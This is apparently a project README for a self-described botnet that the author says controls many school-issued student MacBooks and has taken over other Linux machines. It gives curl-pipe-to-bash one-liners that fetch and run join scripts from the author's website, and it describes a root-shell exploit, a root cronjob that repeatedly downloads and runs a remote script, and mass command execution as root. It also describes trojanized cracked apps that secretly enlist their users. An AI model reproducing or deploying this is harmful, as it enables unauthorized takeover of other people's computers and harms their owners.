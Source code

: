 # net
Some code which I use to run a rudimentary botnet which controls roughly 20% of the MacBooks my school provides to students. I've also used this code to take over Kali Linux computers and Raspberry Pis at a summer program.

## Where this code works
* MacBook Airs at George Mason High School or others running Mac OS X 10.11.6 and immediately preceding versions. Some assumptions were made about configuration for Macs since the code was written specifically for GMHS MacBook Airs. The join script will exploit into a root shell to deliver its payload automatically, thus root access is not necessary.
* Debian-based Linux distributions, originally Kali Linux and Raspbian. Should work on other distros, although the user must be logged in as root to the GUI, which they only usually are on Kali, or you must otherwise have root access.

I do not endorse the use of this code for malicious purposes.

## How it works
### Server
The botnet is controlled by a simple Python script which opens a socket on port `2043`. Currently the server simply listens for incoming connections and accepts data on new nodes and updates to node data, which are then stored in the file `nodes.txt`.

### Joining
For Macs, two scripts are used to join a computer to the network, `jm.sh` and `enact.sh`. `jm.sh` allows one-run joining: it will download the exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically, which will handle joining the botnet. This mitigates the need to manually download the exploit, mark it as executable, then run and remove it.

Some code to use a Rubber Duck USB as a delivery mechanism for Macs can be found [here](https://github.com/ErikBoesen/duck).

For Kali or other Debian-based Linux, there's just one script, `jl.sh`, which must be executed as root or as a user with root privileges. In addition to the usual activities, it will add a root cronjob to regularly curl a script from my website and run it. Unless necessary, that script, `linuxupdate.sh`, will simply check if the computer's local IP has changed, and if so, communicate as such to the server.

Some code to use a Rubber Duck USB as a delivery mechanism for Linux can be found [here](https://github.com/ErikBoesen/duck-kali).

Here are simple one-liners to join the botnet (all the scripts are up on my website for URL simplicity):

Mac:
```sh
curl -L erikboesen.com/jm.sh |bash
```
Linux:
```sh
curl -L erikboesen.com/jl.sh |bash
```

### Controlling
Running `run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command as root. You can also run `up.sh` to view which/how many nodes are online. `die.sh` works strictly on Macs, and will kill open applications, turn off the screen, and initiate shutdown on the computer owned by the student with the provided username. Note: Don't do this.

### Apps
The `apps` directory contains some cracked versions of various applications which are blocked on GMHS MacBooks. These versions will work on our MacBooks, but they will also join the computer that runs them to the botnet.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
